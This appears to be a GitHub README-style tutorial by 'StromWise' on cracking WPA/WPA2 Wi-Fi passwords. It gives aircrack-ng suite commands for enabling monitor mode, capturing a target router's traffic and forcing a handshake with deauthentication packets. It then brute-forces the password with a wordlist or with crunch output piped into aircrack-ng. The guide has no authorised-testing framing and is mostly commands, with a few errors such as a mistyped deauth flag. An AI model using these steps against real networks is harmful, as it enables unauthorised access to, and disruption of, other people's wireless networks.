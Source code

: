 ### HOW TO CRACK WPA/WPA2 WIFI USING AIRCRACK-NG.


## TERMINAL 1


Step 1 :->  ifconfig

Step 2 :->  airmon-ng start wlan0 (the interface you want to put in monitor mode)

Step 3 :->  iwconfig (check that the wifi interface is in monitor mode or not )

Step # :->  aireplay-ng --test wlan0mon (to test that the interface is working fine in result you must 
get the maximum percentage)

Step 4 :->  airodump-ng wlan0mon 

Step 5 :->  airodump-ng -c 0 -w wpa --bssid 00:00:00:00:00 wlan0mon 

(-w WPA = is the file name you want to give to the captured file)

(-c 0= channel on which the target router is)

(--bssid = enter the target router bssid)














____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



## TERMINAL 2


Step 6 :->  aireplay-ng -O 20 -a 00:00:00:00:00:00 wlan0mon (here type bssid of the target router which you got from the above command)

Step 7 :->  once the handshake is captured stop everything with CTRL + C.

Step 8 :->  now we will crack the password from the handshake file using the wordlist

Step 9 :->  aircrack-ng -w (path of the wordlist) filename(wpa.cap as it was defined above)

Step 10 :->  wireshark filename.cap (now scrool down till you find the deauthentication packets in the 
info tab)

### NOW WAIT FOR THE AIRCRACK-NG TO CRACK THE PASSWORD FROM THE GIVEN WORDLIST.

# WE CAN ALSO USE CRUNCH TO CRACK THE PASSWORD FROM CAPTURED HASH FILE USING PIPELINING SO WE DON'T HAVE TO SAVE THOUSANDS OF PASSWORDS FILE ON THE SYSTEM.

## Step 1 :->  crunch 8 10 0123456789 | aircrack-ng -w - filename.cap -e wifiname 
(8 10 = is the paswword length that it will start from 8 letters and test all the way till 10 letters)
